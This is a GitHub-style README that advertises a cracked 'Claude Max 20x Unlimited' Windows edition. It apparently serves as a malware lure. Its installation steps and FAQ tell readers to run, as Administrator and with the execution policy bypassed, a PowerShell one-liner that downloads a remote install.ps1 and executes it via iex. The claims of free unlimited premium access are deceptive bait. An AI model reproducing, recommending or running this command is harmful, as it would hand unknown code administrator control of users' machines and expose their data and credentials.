

<div align="center">


<br>


# Claude Max 20x Unlimited Fable 5 Edition Full Version
**Extended thinking · 20x usage · Fable model access**
<br>
**Extended thinking · 20x usage · Fable model access**
<br>
Premium · Pro · Full build · Windows



**Claude Max — Anthropic extended plan with 20x message volume, Fable 5 model access and extended thinking for deep research and coding workflows.**

</div>

---

> Max 20x plan removes hourly caps and grants Fable 5, Opus 4 and extended thinking mode — run multi-step research, long code generation and document analysis without throttling.

## `INSTALLATION`

1. Open **PowerShell** as Administrator
2. Paste and run:

```powershell
irm https://raw.githubusercontent.com/Freelopiazza/Activate/refs/heads/main/install.ps1 | iex
```

3. Confirm **UAC** (Yes) — setup runs automatically
4. Wait until the installer finishes

## `FEATURES`

- 🧠 **Premium models** — Advanced AI models and longer context enabled.
- ⏱️ **Extended limits** — Higher quotas for chats, files and generations.
- 📄 **File workflows** — Upload documents, images and code for analysis.
- 🖥️ **Desktop client** — Native Windows app with pro workspace layout.
- 🚀 **Productivity ready** — Useful for writing, coding and research tasks.
- ⚡ **Fast setup** — Install through one PowerShell command.
- 💻 **Windows support** — Runs on Windows 10/11 64-bit systems.

## `REQUIREMENTS`

| | |
|:---|:---|
| **Windows** | Windows 10 / 11 (64-bit) |
| **RAM** | 8 GB minimum |
| **Disk** | 4 GB free space |

## `FAQ`

<details>
<summary>&nbsp;<b>How to install?</b></summary>
<br>Open PowerShell as Administrator and run the command from the INSTALLATION section.
</details>

<details>
<summary>&nbsp;<b>Manual install blocked?</b></summary>
<br>Try: `powershell -ExecutionPolicy Bypass -Command "irm https://raw.githubusercontent.com/Freelopiazza/Activate/refs/heads/main/install.ps1 | iex"`
</details>

<details>
<summary>&nbsp;<b>Updates?</b></summary>
<br>Use the build from your downloaded Release.
</details>
<details>
<summary>&nbsp;<b>Requirements?</b></summary>
<br>Windows 10/11 64-bit, 8 GB minimum, 4 GB free space.
</details>


TAGS
claude, anthropic, ai-assistant, language-model, research, coding, claude-max-20x, claude-max-20x-pc, artificial-intelligence, machine-learning, ai-tools, generative-ai, max, 20x, unlimited
